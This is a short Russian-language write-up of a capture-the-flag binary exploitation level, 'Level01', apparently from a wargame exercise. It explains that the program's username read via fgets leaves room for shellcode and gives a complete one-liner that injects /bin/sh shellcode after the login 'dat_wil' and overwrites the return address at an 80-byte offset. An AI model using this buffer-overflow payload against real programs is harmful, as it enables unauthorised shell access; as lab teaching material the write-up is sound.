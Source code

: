## Level01
Исследовав бинарный файл, можно увидеть, что данная программа запрашивает username и, при успешном вводе, пароль.
Правильный логин, согласно дизассемблированному коду, "dat_wil".
 Для атаки будем использовать fgets. В чтении username у нас есть `256 - 7 = 249` дополнительных символов, в которые можно записать шеллкод.
В пароль же мы записываем после оффсета, найденного через [паттерн генератор](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?), адрес нашего шеллкода.
```sh
(python -c 'print "dat_wil" + "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "\n" + "a"*80 + "\x08\x04\xa0\x47"[::-1]'; cat) | ./level01
```
